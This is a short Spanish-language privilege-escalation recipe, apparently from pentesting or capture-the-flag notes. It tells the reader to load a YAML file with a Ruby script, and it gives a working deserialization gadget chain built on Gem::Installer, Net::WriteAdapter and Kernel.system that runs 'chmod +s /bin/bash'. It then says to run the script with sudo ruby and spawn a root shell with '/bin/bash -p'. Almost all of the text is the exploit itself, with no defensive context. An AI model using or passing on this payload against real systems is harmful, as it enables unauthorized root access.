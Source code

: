 Si el archivo en el cual tienes permisos tiene las función para leer un yml o puedes editarlo agrega: ==File.read(‘sample.yml’)==

Después agrega esto en el archivo .yml

```yml

---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve

```


Ejecuta el archivo,
```bash
sudo /usr/bin/ruby archivo.rb
```

Ahora typea

```bash

/bin/bash -p
```
